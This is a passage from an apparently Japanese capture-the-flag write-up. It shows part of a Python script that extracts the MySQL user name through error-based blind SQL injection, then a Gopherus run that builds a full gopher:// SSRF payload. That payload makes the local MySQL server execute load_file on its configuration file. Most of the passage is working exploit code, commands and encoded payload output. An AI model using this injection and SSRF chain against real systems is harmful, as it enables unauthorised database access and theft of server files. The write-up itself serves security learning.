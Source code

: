 ```python
    payload = "'-extractvalue(0,elt(1-(length(replace(user(),x'{}',''))-{}),'@'))\t--\t".format(hexstr, length)
    r = requests.get(URL + urllib.parse.quote(payload))

    if b'<h4>Having a query problem</h4>' not in r.content:
      known = c + known
      break
  else:
    print('not found')
  print(known)
```

```
$ python get_user.py
︙
iamspyd3r@localhost
```

ユーザ名が得られました。これを使って SSRF しましょう。先程の記事にしたがって、まずは `load_file` で `/etc/mysql/mysql.conf.d/mysqld.cnf` を読んでみましょう。[Gopherus](https://github.com/tarunkant/Gopherus) で MySQL 向けのペイロードを生成します。

```
$ ./gopherus.py --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: iamspyd3r@localhost
Give query to execute: select load_file('/etc/mysql/mysql.conf.d/mysqld.cnf');

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:3306/_%b2%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%69%61%6d%73%70%79%64%33%72%40%6c%6f%63%61%6c%68%6f%73%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%38%00%00%00%03%73%65%6c%65%63%74%20%6c%6f%61%64%5f%66%69%6c%65%28%27%2f%65%74%63%2f%6d%79%73%71%6c%2f%6d%79%73%71%6c%2e%63%6f%6e%66%2e%64%2f%6d%79%73%71%6c%64%2e%63%6e%66%27%29%3b%01%00%00%00%01

-----------Made-by-SpyD3r-----------
```
